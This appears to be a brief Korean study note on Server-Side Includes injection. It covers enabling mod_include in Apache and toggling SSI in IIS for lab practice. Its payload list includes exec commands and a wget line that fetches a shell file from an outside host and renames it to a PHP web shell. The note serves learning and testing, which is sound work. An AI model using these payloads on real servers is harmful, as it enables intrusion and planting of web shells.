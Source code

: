 ### SSI Injection?

Server-Side Includes (SSI) Injection 로 과거 서버 환경 정보 활용에 사용했던 기능이다.

현재는 더 좋은 명령어 들이 존재하기 때문에 거의 사용되지 않는다.

따라서 기본 설정은 대부분 비활성화 되어 있고, 일부러 활성화 시키지 않는 이상 실습 조차 어렵다.

### httpd.conf 를 LoadModule 로 사용하는 설정의 경우

LoadModule include_module modules/mod_include.so

의 #을 확인한다.(주석처리(#)가 있다면 제거)

### apache2의 mods-available 폴더를 사용하는 환경인 경우

ln -s /etc/apache2/mods-available/include.load /etc/apache2/mods-enabled

### httpd.conf 또는 /etc/apache2/sites-available/000-default 파일 편집

<pre><code>
＜Directory>
    Options FollowSymLinks Includes
    AllowOverride All
    Order allow,deny
    Allow from all
    AddType text/html .shtml
    AddOutputFilter INCLUDES .shtml
＜/Directory>
</code></pre>

### 사용 가능 구문

<pre><code>
＜!--#exec cmd="ls" -->
＜!--#exec cmd="cd /root/dir/">
＜!--#exec cmd="wget http://mysite.com/shell.txt | rename shell.txt shell.php" -->
＜!--#exec cmd="dir" -->
＜!--#exec cmd="cd C:\admin\dir">
＜!--#config errmsg="File not found, informs users and password"-->
＜!--#echo var="DOCUMENT_NAME" -->
＜!--#echo var="DOCUMENT_URI" -->
＜!--#config timefmt="A %B %d %Y %r"-->
＜!--#fsize file="ssi.shtml" -->
＜!--#include file=”UUUUUUUU...UU”-->
</code></pre>

### 사용 가능 구문

IIS에서

C:\Windows\System32\inetsrv>appcmd.exe set config "www.도메인.co.kr" -section:system.webServer/serverSideInclude /ssiExecDisable:"**True/False**" /commit:apphost

명령어를 이용해 명령 실행 활성화/비활성화를 설정할 수 있다.
